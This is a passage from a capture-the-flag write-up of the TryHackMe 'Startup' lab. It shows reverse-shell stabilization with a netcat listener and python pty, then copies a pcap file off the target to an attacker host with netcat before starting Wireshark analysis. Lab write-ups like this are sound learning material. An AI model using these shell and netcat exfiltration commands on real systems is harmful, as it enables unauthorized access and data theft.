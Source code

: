 Time to perform [Shell Stabilization](../../3%20-%20Tags/Hacking%20Concepts/Shell%20Stabilization.md) :

```bash
$ export TERM=xterm
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@startup:/$ ^Z
zsh: suspended  nc -lvnp 1337                                                                                             
┌──(mdn0x㉿mdn0xKali)-[~/THM/CHALLENGES/Easy/Startup]
└─$ stty raw -echo;fg
[1]  + continued  nc -lvnp 1337
                             reset
www-data@startup:/$ 
```
# Lateral Movement - Privilege Escalation
## www-data to Lennie

We start [Privilege Escalation](../../3%20-%20Tags/Hacking%20Concepts/Privilege%20Escalation.md) checking the suspicious.pcap file, so we download it with [Netcat](../../3%20-%20Tags/Hacking%20Tools/Netcat.md) (I wasn't able to open a python server) we open another listener :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/THM/CHALLENGES/Easy/Startup]
└─$ nc -lvnp 4444 > suspicious.pcapng   

listening on [any] 4444 ...

```

Now from the target we send the file :

```bash
www-data@startup:/incidents$ nc 10.8.162.183 4444 < suspicious.pcapng
```

### WireShark

We can open the file, if we search through TCP strings we find something :

![Pasted image 20250730112813.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250730112813.png)
